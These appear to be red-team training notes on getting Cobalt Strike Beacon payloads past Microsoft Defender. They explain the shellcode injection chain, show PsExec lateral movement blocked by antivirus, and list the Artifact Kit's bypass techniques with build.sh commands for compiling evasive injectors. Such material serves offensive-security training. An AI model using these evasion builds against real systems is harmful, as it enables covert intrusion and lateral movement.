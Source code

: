 # Defender Antivirus

Microsoft Defender is pre-installed with Windows (both desktop and server editions), which has become a formidable defense. There are three facets to its detection capability to be explored:

* On-disk
* In-memory
* Behavioural

It's useful to understand how payloads are generated in CS. Beacon is written as a reflective DLL, so there's the core Beacon DLL (everything that make Beacon actually function) plus a reflective loader component. Those are then converted into position independent shellcode, which when injected and executed, calls the reflective loader entry point. The reflective loader then loads the Beacon DLL into memory and kicks off a new thread to run it.

    Reflective Loader + Beacon DLL --> Shellcode

Settings from the Malleable C2 profile (e.g. callback addresses) are stamped into the DLL when payloads are generated; the shellcode is generated, XOR'd, then stamped into them. The artifacts act as "simple" shellcode injectors. They all, with the exception of the service binary, inject Beacon shellcode into themselves.

    XOR'd shellcode --> Allocate RW memory --> Decode shellcode --> Write memory --> Change memory to RX --> Create thread

The service binary is identical to this, except that it spawns another process and performs remote injection instead. 

The complication when trying to bypass AV signatures is knowing which "part" of the payload they apply to - the core Beacon, the reflective loader, or the artifact.

## Artifact Kit

Though dropping files to disk has a bad reputation, it's sometimes unavoidable to use certain tactics (e.g. show that we have access to the File Server, but we can't PsExec to it because the default service binary payload is detected by Defender).

    beacon> ls \\fs.dev.cyberbotic.io\c$
    beacon> jump psexec64 fs.dev.cyberbotic.io smb
    [-] Could not start service 633af16 on fs.dev.cyberbotic.io: 225
    PS C:\Users\Attacker> net helpmsg 225
    Operation did not complete successfully because the file contains a virus or potentially unwanted software.

If we copy the payload to our local desktop and check the associated log, we can see that the "file" was detected.

    PS C:\Users\Attacker> copy C:\Payloads\smb_x64.svc.exe .\Desktop\
    PS C:\Users\Attacker> Get-MpTreatDetection | sory $_.InitialDetectionTime | select -first 1

The Cobalt Strike artifacts in the output are nothing more than shellcode runners that inject Beacon shellcode when executed. As a rule of thumb, they inject the shellcode into themselves (e.g. using the VirtualAlloc & CreateThread pattern). The service binary is the one exception, as it spawns a new process and injects the shellcode into that instead. So when moving laterally with PsExec, the artifact can be deleted from disk immediately.

The Artifact Kit contains the source code for these artifacts and is designed to facilitate the development of sandbox-safe injectors. The idea is to develop artifacts that inject Beacon shellcode in a way that cannot be emulated by AV engines. There are several bypass techniques provided with the kit which you can modify, or you can implement entirely new ones yourself. Where the Artifact Kit does not help is with making Beacon resilient to detection once it's running in memory (e.g. from memory scanners).

The kit can be found in C:\Tools\cobaltstrike\arsenal-kit\kits\artifact.

The code for the entry point of each artifact format (i.e. EXE and DLL) can be found in src-main. These include dllmain.c for the DLL artifacts, main.c for the EXE artifacts, and svcmain.c for the Service EXE artifacts. These just call a function called start, so you should not need to modify these files in most cases. The implementation of this function can be found in each bypass file.

These can be found in src-common and are named bypass-<technique>.c.  The included ones are:

* mailslot - reads the shellcode over a mailslot.
* peek - uses a combination of Sleep, PeekMessage and GetTickCount.
* pipe - reads the shellcode over a named pipe.
* readfile - artifact reads itself from disk and seeks to find the embedded shellcode.

Before making any modifications to the kit, let's just build one of these variants as it is. The kit includes a build script which uses mingw to compile the artifacts.

    ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact> ./build.sh
    [Artifact kit] [-] Usage:
    [Artifact kit] [-] ./build <techniques> <allocator> <stage size> <rdll size> <include resource file> <stack spoof> <syscalls> <output directory>
    [Artifact kit] [-]  - Techniques       - a space separated list
    [Artifact kit] [-]  - Allocator        - set how to allocate memory for the reflective loader.
    [Artifact kit] [-]                       Valid values [HeapAlloc VirtualAlloc MapViewOfFile]
    [Artifact kit] [-]  - Stage Size       - integer used to set the space needed for the beacon stage.
    [Artifact kit] [-]                       For a 0K   RDLL stage size should be 310272 or larger
    [Artifact kit] [-]                       For a 5K   RDLL stage size should be 310272 or larger
    [Artifact kit] [-]                       For a 100K RDLL stage size should be 444928 or larger
    [Artifact kit] [-]  - RDLL Size        - integer used to specify the RDLL size. Valid values [0, 5, 100]
    [Artifact kit] [-]  - Resource File    - true or false to include the resource file
    [Artifact kit] [-]  - Stack Spoof      - true or false to use the stack spoofing technique
    [Artifact kit] [-]  - Syscalls         - set the system call method
    [Artifact kit] [-]                       Valid values [none embedded indirect indirect_randomized]
    [Artifact kit] [-]  - Output Directory - Destination directory to save the output
    [Artifact kit] [-] Example:
    [Artifact kit] [-]   ./build.sh "peek pipe readfile" HeapAlloc 310272 5 true true indirect /tmp/dist/artifact

Review the README.md file inside the Artifact Kit directory for more information. Let's build a new set of artifact templates using the bypass-pipe technique:
    
    ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact> ./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
    ...
    [Artifact kit] [+] The artifacts for the bypass technique 'pipe' are saved in '/mnt/c/Tools/cobaltstrike/artifacts/pipe'






